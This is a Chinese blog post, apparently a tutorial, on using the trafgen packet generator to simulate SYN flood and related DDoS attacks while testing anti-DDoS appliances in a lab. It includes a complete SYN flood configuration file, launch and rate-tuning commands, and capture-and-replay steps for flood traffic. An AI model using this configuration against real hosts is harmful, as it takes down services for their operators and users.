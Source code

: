 ```yaml
---
title: 高性能流量生成工具trafgen(DDoS模拟)
layout: post
author: onephone
category: 技术
tags: [network, security, tools]
---
```

> 因项目需要，要对主流的几家抗DDoS设备做测评，当然了最专业的是使用Spirent TestCenter，但受限于其他因素，最终决定搭建一个软件环境来进行相关的DDoS测试。

> 本文主要讲解的是如何使用trafgen工具发起DDoS攻击(syn flood, ack flood等等)  
  
> synflood攻击、ackflood攻击、UDP fragment攻击的详细配置文件见 [github ddos-dos-tools][1]  

## 工具选择
1. 开源的流量生成工具很多，可用于模拟DoS攻击的工具也不在少数，如hping、scapy（python库）等等，但均存在着不足，如性能不够，不能模拟DDoS攻击（攻击流IP和PORT不能动态变化）
2. 通过详细的对比测试（同hping、scapy、LOIC等对比测试，具体数据不宜公开），最后统一选择了**netsniff-ng**套件中的**trafgen**攻击，其在测试环境中可达到**24万pps**的SYNFLOOD攻击，是一款高速、多线程网络数据包生成工具
3. trafgen 工具能够动态生成攻击IP和端口号，能够通过配置文件动态修改攻击包的内容

## 简单使用

### 1. 安装
trafgen属于netsniff-ng套件，是一款linux下的工具，安装很方便，通过系统的在线安装工具即可完成安装，如centos下`yum install netsniff-ng`即可

### 2. 使用（SYN Flood攻击）
1. 工具的比较简单，主要是配置文件的编写，假设已经写好了一个synflood配置文件
- 键入命令`trafgen --cpp --dev ens33 --conf synflood.trafgen --verbose`即可发起攻击
- 进一步的还可通过`trafgen --cpp --dev ens33 --conf synflood.trafgen --verbose --gap 1000` （以毫秒为单位）来调节速度
- 进一步的还可通过`trafgen --cpp --dev ens33 --conf synflood.trafgen --verbose --kernel-pull 20` (默认10us）来调节速度
- 详细的可以`man trafgen`

2. 配置文件解读（以synflood.trafgen文件为例）
- *synflood.trafgen* 模版，trafgen就是通过该文件来生成特定的数据包的！看配置文件的注释基本能清除如何修改

```
/* TCP SYN attack ( 64byte )
 * Command example:
 *  trafgen --cpp --dev em2 --conf synflood.trafgen --verbose
 * Note: dynamic elements "drnd()" make trafgen slower
 */

#define ETH_P_IP	0x0800

#define SYN		(1 << 1)
#define ACK		(1 << 4)
#define ECN		(1 << 6)

{
  /* --- Ethernet Header --- */
  /* NEED ADJUST */
  // 0x00, 0x12, 0xc0, 0x02, 0xac, 0x56,  # MAC Destination
  // 0x00, 0x12, 0xc0, drnd(3),  # MAC Source
  0xf4, 0xe9, 0xd4, 0x8d, 0x04, 0x82, # MAC Destination
  0xf4, 0xe9, 0xd4, 0x8c, 0xe2, 0xa2, # MAC Source
  
  const16(ETH_P_IP),
  /* IPv4 Version, IHL, TOS */
  0b01000101, 0,
  /* IPv4 Total Len */
  const16(46),
  /* IPv4 Ident */
  drnd(2),
  //const16(2),

  /* IPv4 Flags, Frag Off */
  0b01000000, 0,
  /* IPv4 TTL */
  64,
  /* Proto TCP */
  0x06,
  /* IPv4 Checksum (IP header from, to) */
  csumip(14, 33),

  /* NEED ADJUST */
  // 10, 10, 88, drnd(1), # Source IP
  10, 10, 88, 173,  # Source IP
  10, 10, 88, 172, # Dest IP

  /* TCP Source Port */
  drnd(2),
  /* TCP Dest Port */
  const16(80),
  /* TCP Sequence Number */
  drnd(4),
  /* TCP Ackn. Number */
  const32(0), /* NOTICE ACK==zero with SYN packets */

  /* TCP Header length + Flags */
  //const16((0x5 << 12) | SYN | ECN)	/* TCP SYN+ECN Flag */
  //const16((0x5 << 12) | SYN | ACK)	/* TCP SYN+ACK Flag */
  const16((0x5 << 12) | SYN)		/* TCP SYN Flag */
  //const16((0x5 << 12) | ACK)		/* TCP ACK Flag */

  /* Window Size */
  const16(16),
  /* TCP Checksum (offset IP, offset TCP) */
  csumtcp(14, 34),
  const16(0), /*PAD*/
  
  /* Data */
  "SYNswf"
}
```

- 配置文件可通过`drnd()`函数来实现对应内容的动态生成，如IP、MAC地址等，但是会影响性能

![image_1b6bf8ooa3im1ioc1kc7aeu1qo89.png-6kB][2]

- 修改MAC地址（攻击/被攻击MAC地址）

![image_1b6bfeukr5m628h14ciupq1tnnm.png-11.8kB][3]

- 修改IP地址和攻击协议及端口号，`const16()`将对应的十进制数转换成一个16位的二进制数

![image_1b6bftaek14a4il1fp5l3dr5213.png-15kB][4]

- 修改位SYN标志(根据情况也可修改为其他的)

![image_1b6bfv9751ojs1g6klulc4jaak1g.png-11.6kB][5]

### 3. ACKFlood 攻击
- 配置文件见 [github ddos-dos-tools][6]

### 4. UDP fragment 攻击
- 配置文件见 [github ddos-dos-tools][7]

### 5. 退出命令
统一退出命令`pgrep trafgen | xargs kill -s 9`


## 其他
1. 在trafgen性能仍达不到要求的情况下，可通过netsniff-ng攻击进行流量回放，如下
- 先捕获synfloog攻击数据包
`netsniff-ng --in ens33 --out synflood.pcap --silent --verbose --filter 'ether src 00:50:56:ab:a5:3f'`
`trafgen --cpp --dev ens33 --conf synflood.trafgen --verbose`
- 再重放synflood攻击数据包
`netsniff-ng --in synflood.pcap --out ens33 --silent --prio-high --verbose`
2. 在用trafgen进行实时流量生成或者netsniff-ng重放时，还可通过工具`tc`进行流量控制，具体请见["linux流量控制工具tc](http://)一文，简单举例如下
![image_1b6bgp1mntnf15a61bppjvs1f7a1t.png-15.8kB][8]



  [1]: https://github.com/onephone/ddos-dos-tools
  [2]: http://static.zybuluo.com/wuzhimang/mhfkf1drooxo2ua6ty5cceed/image_1b6bf8ooa3im1ioc1kc7aeu1qo89.png
  [3]: http://static.zybuluo.com/wuzhimang/c9tv8lr5a7elsipj8zwjl6tl/image_1b6bfeukr5m628h14ciupq1tnnm.png
  [4]: http://static.zybuluo.com/wuzhimang/hujkjhes3d7n42iptoaovv2o/image_1b6bftaek14a4il1fp5l3dr5213.png
  [5]: http://static.zybuluo.com/wuzhimang/28r16zkja4memce251azvmx4/image_1b6bfv9751ojs1g6klulc4jaak1g.png
  [6]: https://github.com/onephone/ddos-dos-tools
  [7]: https://github.com/onephone/ddos-dos-tools
  [8]: http://static.zybuluo.com/wuzhimang/b16skp1a811ullz8hfuzq0h0/image_1b6bgp1mntnf15a61bppjvs1f7a1t.png
